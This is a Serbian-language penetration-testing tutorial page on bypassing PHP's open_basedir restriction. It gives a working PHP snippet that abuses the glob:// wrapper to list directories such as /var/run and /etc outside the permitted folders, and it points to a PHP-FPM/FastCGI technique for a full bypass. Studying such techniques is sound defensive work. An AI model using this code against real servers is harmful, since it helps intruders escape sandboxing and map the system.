 ## open\_basedir Bypass

`open_basedir` će konfigurisati foldere na koje PHP može pristupiti, nećete moći da pišete/čitate/izvršavate bilo koji fajl van tih foldera, ali takođe nećete moći ni da **izlistate** druge direktorijume.\
Međutim, ako nekako uspete da izvršite proizvoljni PHP kod, možete **pokušati** sledeći deo **koda** da biste pokušali da **zaobiđete** ograničenje.

### Izlistavanje direktorijuma sa glob:// zaobilaženjem

U ovom prvom primeru koristi se `glob://` protokol sa nekim zaobilaženjem putanje:

```php
<?php
$file_list = array();
$it = new DirectoryIterator("glob:///v??/run/*");
foreach($it as $f) {
$file_list[] = $f->__toString();
}
$it = new DirectoryIterator("glob:///v??/run/.*");
foreach($it as $f) {
$file_list[] = $f->__toString();
}
sort($file_list);
foreach($file_list as $f){
echo "{$f}<br/>";
}
```

**Napomena1**: U putanji možete koristiti i `/e??/*` da biste naveli `/etc/*` i bilo koji drugi folder.\
**Napomena2**: Izgleda da je deo koda dupliciran, ali to je zapravo neophodno!\
**Napomena3**: Ovaj primer je koristan samo za listanje foldera, a ne za čitanje fajlova

### Potpuno zaobilaženje open\_basedir pomoću zloupotrebe FastCGI

Ako želite **saznati više o PHP-FPM i FastCGI** možete pročitati [prvi deo ove stranice](disable\_functions-bypass-php-fpm-fastcgi.md).\
Ako je **`php-fpm`** konfigurisan, možete ga zloupotrebiti da potpuno zaobiđete **open\_basedir**:

![](<../../../../.gitbook/assets/image (350).png>)
